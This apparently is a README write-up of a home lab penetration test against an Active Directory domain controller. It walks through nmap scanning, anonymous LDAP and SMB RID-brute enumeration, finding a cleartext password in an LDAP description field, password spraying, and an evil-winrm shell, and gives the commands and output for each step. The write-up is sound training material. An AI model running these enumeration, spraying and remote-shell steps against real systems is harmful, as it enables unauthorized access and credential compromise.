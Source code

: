 # Active-Directory-Pen-testing-Lab
This project simulates a real-world internal penetration test in a controlled lab environment. The goal is to compromise a Windows Server 2022 Domain Controller and Internal Network using a Kali Linux attacker machine through enumeration, exploitation, and post-exploitation techniques.

Project Summary

- **Attacker Machine:** Kali Linux
- **Target Machine:** Windows Server 2022 (Active Directory Domain Controller)
- **Domain Name:** `orb.corp0`
- **Objective:** Gain initial access, enumerate the domain, escalate privileges, and extract sensitive data (e.g., password hashes, domain admin credentials).
- **Scope:** Internal black-box test — attacker has direct network access but no initial credentials.

Lab Architecture

| Machine          | Role                            | IP Address     |
|------------------|---------------------------------|----------------|
| Kali Linux       | Attacker                        | 192.168.50.10  |
| Windows Server   | Domain Controller (DC)          | 192.168.50.129 |
| Windows 10       | Windows client                  |                |

## 1. Information Gathering

### Nmap Scan

> **Tool:** `nmap`  
> **Purpose:** Identify open ports and running services on the target system.

```bash
nmap -sCV -p- 192.168.50.129

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Windows SMB file sharing
464/tcp   open  kpasswd5      Kerberos password change
593/tcp   open  ncacn_http    RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Global Catalog LDAP
3269/tcp  open  tcpwrapped
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0
5985/tcp  open  http          Windows Remote Management (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0
```
> **Purpose:** Identify open ports and running services on the target system.

## 2. Enumeration

### LDAP Enumeration with NetExec (nxc)

> **Tool:** `nxc`

> **Purpose:** Perform anonymous LDAP queries to extract usernames and domain structure

```bash
nxc ldap 192.168.50.129 -u '' -p '' --users

[*] Total records returned: 67
DC=orb,DC=corp
CN=Administrator,CN=Users,DC=orb,DC=corp
CN=Guest,CN=Users,DC=orb,DC=corp
CN=krbtgt,CN=Users,DC=orb,DC=corp
CN=alice wonderland,CN=Users,DC=orb,DC=corp  
CN=bob builder,CN=Users,DC=orb,DC=corp
CN=jerry cantrell,CN=Users,DC=orb,DC=corp
CN=kurt cobain,CN=Users,DC=orb,DC=corp 
CN=mssql_svc,CN=Users,DC=orb,DC=corp
CN=http_svc,CN=Users,DC=orb,DC=corp
CN=Floor,CN=Users,DC=orb,DC=corp
CN=IT,CN=Users,DC=orb,DC=corp
CN=HR,CN=Users,DC=orb,DC=corp
CN=Management,CN=Users,DC=orb,DC=corp
```
> **Success:** Anonymous access to LDAP allowed us to enumerate domain users and service accounts without credentials. 

### SMB Enumeration with NetExec RID Brute Force

> **Tool:** `nxc`

> **Purpose:** Enumerate RID values via SMB to uncover domain user accounts

```bash
nxc smb 192.168.50.129 -u 'anonymous' -p '' --rid-brute > domainusers.txt
1101: ORB\DnsAdmins (SidTypeAlias)
1102: ORB\DnsUpdateProxy (SidTypeGroup)
1103: ORB\alice.wonderland (SidTypeUser)
1104: ORB\bob.builder (SidTypeUser)
1105: ORB\jerry.cantrell (SidTypeUser)
1106: ORB\kurt.cobain (SidTypeUser)
1107: ORB\dana.scully (SidTypeUser)
1108: ORB\walter.white (SidTypeUser)
1109: ORB\james.bond (SidTypeUser)
1110: ORB\bruce.wayne (SidTypeUser)
```
> **Success:** Successfully enumerated valid domain users and groups using SMB anonymous access with RID brute-forcing

## 3. Exploitation 

Using the usernames previously enumerated, several attacks were launched to gain initial access and extract service account Kerberos tickets for offline password cracking.

### Technique 1: LDAP Description Disclosure

  > **Tool:** `ldapsearch`  
  > **Purpose:** Dump LDAP user attributes and look for password leaks or notes in the `description` field.
  
  ```bash
  ldapsearch -x -H ldap://192.168.50.129 -b "DC=orb,DC=corp" '(objectclass=person)' | grep -ia desc
  ```
  > **Results:**
  > **description:** 3edcxsw2#EDCXSW@
  > A cleartext password was found in the description field — likely a human error or documentation leak.
  
  ### Credentials Spraying
  > Used crackmapexec tool to test the discovered password against all enumerated usernames.
  ```bash
  crackmapexec smb 192.168.50.129 -u users.txt -p '3edcxsw2#EDCXSW@'
  
  [+] orb.corp\clark.kent:3edcxsw2#EDCXSW@ (Pwn3d!)
  ```
  
  >  Valid credentials discovered — clark.kent is a domain user.

### Shell Access via Evil-WinRM

```bash
evil-winrm -i 192.168.50.129 -u clark.kent -p '3edcxsw2#EDCXSW@'

*Evil-WinRM* PS C:\Users\clark.kent\Documents>
```
> Shell access gained on the Domain Controller as a low-privileged user.
